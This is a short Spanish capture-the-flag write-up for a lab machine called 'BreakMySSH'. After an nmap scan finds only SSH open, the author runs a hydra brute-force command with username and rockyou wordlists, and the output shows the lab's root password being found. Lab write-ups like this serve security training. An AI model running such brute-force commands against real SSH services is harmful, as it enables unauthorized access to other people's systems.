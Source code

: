 # BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250724032351.png" alt=""><figcaption></figcaption></figure></div>

